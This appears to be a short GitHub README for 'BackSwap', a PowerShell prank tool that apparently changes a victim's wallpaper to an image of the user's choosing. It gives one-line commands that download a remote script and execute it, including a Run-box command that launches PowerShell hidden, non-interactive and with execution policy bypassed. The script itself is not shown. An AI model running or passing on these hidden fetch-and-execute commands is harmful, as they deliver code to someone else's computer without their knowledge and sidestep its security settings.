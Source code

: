# BackSwap
Made by VBV11

# How to add ur own image

Go to BS.ps1 and change the "UR OWN IMAGE URL"

![image](https://github.com/VBV11/BackSwap/assets/104235290/ed41590e-4542-44e4-a2b9-cb9e2bd77571)




# One line command in powershell

(Change the URL to ur own URL of the code) IEX(IWR URL)

EXAMPLE

IEX(IWR https://raw.githubusercontent.com/VBV11/BackSwap/main/BS.ps1)

![image](https://github.com/VBV11/BackSwap/assets/104235290/f632c341-f864-4334-8fa3-96970affdc9e)


# Run box command

(Change the URL to ur own URL of the code) powershell -w h -NoP -NonI -Exec Bypass $pl = iwr URL?dl=1; invoke-expression $pl

EXAMPLE

powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/VBV11/BackSwap/main/BS.ps1?dl=1; invoke-expression $pl

![image](https://github.com/VBV11/BackSwap/assets/104235290/e79c7083-6a1a-432f-aa79-9c666d991143)


